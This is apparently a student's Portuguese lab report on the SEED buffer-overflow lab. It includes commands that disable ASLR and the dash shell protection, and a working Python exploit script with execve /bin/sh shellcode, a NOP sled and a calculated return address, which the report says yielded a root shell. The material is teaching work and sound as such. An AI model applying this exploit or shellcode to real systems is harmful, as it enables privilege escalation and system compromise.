

# Trabalho realizado na Semana #5

## Questão 1
### Configuração básica

- Como sugerido executámos os comandos que nos foram sugeridos, de forma a criar um ambiente onde a execução do ataque seja mais fácil.
O primeiro a ser executado, tem como objetivo retirar as contramedidas da alocação de espaço aleatório das posições iniciais dos registos da stack e da heap. Já o segundo, serve para dar _bypass_ às contramedidas de Dash ao ligarmos a nossa shell à outra shell `/bin/zsh`.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0

$ sudo ln -sf /bin/zsh /bin/sh
```


### Tarefa 1 : Getting Familiar with Shellcode


### Tarefa 2: Understanding the Vulnerable Program

- Nesta segunda tarefa, entendemos que o programa apresentado em stack.c é de facto, vulnerável a ataques buffer overflow, uma vez que neste programa a função `bof` pretende copiar através do comando `strcpy`,que não verifica os limites do tamanho do buffer, o argumento `str`, sendo este um array com um máximo de 517 caracteres, para a variável `buffer`, tendo o espaço de 100 caracteres, lido apartir de um ficheiro `badfile`. Caso a váriavel `str` tenha caracteres a mais que `buffer`, ocorre o erro de Segmentation Fault.

- Num momento posterior, assim como pedido, alteramos o valor `L1` do Makefile, para 116 (100+8*G).
 


### Tarefa 3: Launching Attack on 32-bit Program (Level 1)

#### Criação badfile

Para esta tarefa, primeiramente, criamos o ficheiro badfile, cujo conteúdo será lido para o buffer, causando o overflow e o acesso à root shell.


#### Compilação e GDB

De seguida, executamos `make stack-L1`, de forma a compilar o ficheiro stack.c usando L1 como tamanho do buffer e executamos o gdb deste ficheiro.


#### Procura de endereços

Recorrendo ao gdb, começamos por criar um breakpoint na função bof de forma a que o programa pare nesta função, visto que é onde está presente o problema de buffer overflow. De seguida, analisamos as posições em memória de `ebp` e do `buffer` e, por fim, calculamos a diferença entre estes, de forma a perceber o quanto distam.



#### Modificação do ficheiro de ataque

```python
#!/usr/bin/python3
import sys

# Shellcode 32-bit
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"   
).encode('latin-1')

# Encher o conteúdo com NOP's
# Salto não necessita de ser preciso, pode ser feito para posições anteriores à da localização exata do código malicioso
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Por o Shellcode algures na Stack
# Como o restantes locais reescritos pelo buffer estarão com o valor da instrução NOP, torna-se mais fácil por o Shellcode no final do payload e apontar o return adress para algures nesse espaço
start = 517 - len(shellcode)                
content[start:start + len(shellcode)] = shellcode


# 0xFFFFCB58 -> posição do $ebp quando debugging
# 200 -> salto para suportar aumento do valor dos registos quando executado normalmente
ret    = 0xFFFFCB58 + 200         

# 124 -> Distância entre buffer e ebp
# 4 -> Tamanho do ebp (return address encontra-se depois)
offset = 124 + 4 

L = 4     # Utilizar 4 para registos de 32-bits e 8 para registos de 64-bit
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Escrever o conteúdo no ficheiro
with open('badfile', 'wb') as f:
  f.write(content)
```

Para a criação do ataque tivemos de pensar em alguns valores, nomeadamente:

- `shellcode`: Para este, usamos o valor previamente mostrado na ficha para um sistema de 32 bits, visto que `L`, determina o tipo de sistema e como tem valor 4, sabemos que estamos perante um sistema de 32 bits.

- `start`: Foi escolhido o valor `517 - len(shellcode)`, de forma a que o código a ser executado, neste caso o shellcode, ficasse inserido no final da payload. Optámos por fazer desta forma uma vez que, como o restante espaço do buffer será preenchido com operadores `NOP`, exceto o return address, independentemente do local para qual este aponta no buffer (considerando que este aponta para uma localização entre o return address e o final da payload) o shellcode seria executado. 

- `ret`: Este valor foi definido, tendo em conta o valor do `ebp` descoberto durante o debugging, ao qual somamos 200, de forma a apontar algures entre o return adress e o final do payload. O valor não é trivial uma vez que a posição na memória verdadeira do `ebp` é superior à de quando o programa é debugged, podiam no entanto ser utilizados outros valores.


- `offset`: Neste caso, o valor escolhido é a diferença entre os espaços de memória do ínicio do buffer e o return address. Como a localização do return address é logo após o `ebp`, bastou adicionar o tamanho deste (4 bytes) ao seu offset do ínicio do buffer (obtido durante o debugging).


Para chegar a este valores recorremos ao livro recomendado, capitulo 4, [Buffer-OverFlow Attack](https://www.handsonsecurity.net/files/chapters/edition3/sample-buffer-overflow.pdf) referido na secção `Seed Books`. 

#### Esquemas

Decidimos criar pequenos esquemas, não muito exatos, representativos da porção da stack afetada, em vários momentos do processo.

---

Programa executado dentro do GDB. Foi neste estado que obtivemos os valores de memória para o `buffer` e o `ebp`

<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    
</div>
<br>

---

Programa executado na shell, antes do buffer overflow. 

Como é possível reparar, as posições de memória obtidas anteriormente já não representam a posição real das estruturas.

Foi neste estado que obtivemos os valores de memória para o `buffer` e o `ebp`

<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    
</div>
<br>

---

Programa executado normalmente, após bufferOverflow.

Após este passo, é possível perceber que regiões de memória se encontram com a instrução `NOP` e para que sítio na memória o return address aponta
<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    
</div>

<br>
<br>


#### Execução do Ataque

Após a criação do ficheiro exploit executámo-lo de forma criar os conteúdos dentro do ficheiro badfile. Por fim, corremos o programa vulnerável, `stack-L1`, e conseguimos que uma root shell fosse aberta, comprometendo o sistema.


## Questão 2


**Buffer inicial**, antes da execução do `strcpy`.
<div style="height:650px; width: 400px; display:block; margin-left:auto; margin-right:auto">
    
</div>
<br>


**Buffer após overflow**

<div style="height:650px; width: 400px; display:block; margin-left:auto; margin-right:auto">
    
</div>

<br>

Podemos verificar que este se encontra preenchido com `NOP` (0x90) e que contém o `return address` assim como o `shellcode` no fim.


---

Com o seguinte comando é possível confirmar que o `return address` está de facto a ser escrito na posição de memória correta, exatamente após o `$ebp`


Podemos verificar que o endereço para onde o `return address` aponta se encontra entre a posição do mesmo e o `shellcode`. O mesmo deve acontecer quando executado na shell, onde os endereços da stack têm tipicamente um valor mais alto.

